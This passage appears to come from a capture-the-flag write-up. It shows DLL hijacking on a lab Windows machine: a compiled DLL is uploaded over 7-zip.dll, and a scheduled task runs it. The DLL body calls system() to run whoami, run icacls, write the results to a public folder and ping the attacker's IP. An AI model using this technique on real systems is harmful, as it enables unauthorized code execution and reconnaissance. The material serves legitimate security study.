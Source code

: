 
Given the complexity of what’s going on, I’m going to start with a simple
`ping` to my host. I’ll set the build to Release x64, and select Build ->
Build Solution.

![image-20221110073913824](https://0xdfimages.gitlab.io/img/image-20221110073913824.png)

It’s successful.

I’ll start `tcpdump` to look for ICMP packets, and upload this over
`7-zip.dll`, and wait for the next scheduled task run. It works:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:39:57.992781 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18400, length 40
    12:39:57.992824 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18400, length 40
    12:39:59.007392 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18402, length 40
    12:39:59.007425 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18402, length 40
    12:40:00.039137 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18404, length 40
    12:40:00.039167 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18404, length 40
    12:40:01.054422 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18406, length 40
    12:40:01.054468 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18406, length 40
    

So that’s execution.

### Enumeration Via Dll

To get a feel about where to go next, I’m going to get more information about
the share by having the Dll write data to a file and read it via the shell as
web. I’ll generate a new Dll body:

    
    
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c whoami /all > C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share\\* >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c icacls C:\\share\\scripts\\* >> C:\\users\\public\\0xdf.txt");
            system("cmd.exe /c ping 10.10.14.6");
    

I’m leaving the `ping` in there so that I have some indication when it runs.

I’ll upload it, and after a minute or so, I get pings. I’ll check with the
shell, and there’s a file:

    
    
    c:\Users\Public>dir
     Volume in drive C has no label.
     Volume Serial Number is BE61-D5E0
    
     Directory of c:\Users\Public
    
    11/10/2022  07:40 PM    <DIR>          .
    02/16/2022  10:00 PM    <DIR>          ..
    11/10/2022  07:40 PM            11,072 0xdf.txt
    09/24/2021  07:27 AM    <DIR>          Documents
    09/15/2018  08:19 AM    <DIR>          Downloads
    09/15/2018  08:19 AM    <DIR>          Music
    09/15/2018  08:19 AM    <DIR>          Pictures
    09/15/2018  08:19 AM    <DIR>          Videos
                   1 File(s)         11,072 bytes
                   7 Dir(s)   9,227,177,984 bytes free 
    
